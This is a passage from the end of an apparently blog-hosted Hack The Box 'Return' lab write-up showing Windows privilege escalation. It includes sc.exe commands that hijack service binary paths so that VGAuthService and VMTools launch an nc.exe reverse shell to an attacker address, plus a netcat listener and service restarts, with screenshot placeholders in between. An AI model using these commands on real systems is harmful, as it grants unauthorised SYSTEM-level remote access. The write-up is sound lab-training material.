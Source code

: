 ```powershell
sc.exe config VGAuthService binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.6 443"
```

```bash
rlwrap nc -nlvp 443
```

<br/>
<img src="{{ site.img_path }}/return_writeup/Return_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_17.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_18.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_19.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I try with different services, but with **VGAuthService** and **VMTools** I get the shell and I can access the contents of the `root` user flag.

```powershell
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.6 443"
```

```bash
rlwrap nc -nlvp 443
```

```powershell
sc.exe stop VMTools
sc.exe start VMTools
```

<br/>
<img src="{{ site.img_path }}/return_writeup/Return_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>


Machine rooted, I can now kill the box and continue with the next box of [Hack The Box](https://www.hackthebox.com/){:target="_blank"}.

```bash
htbExplorer -k Return
```
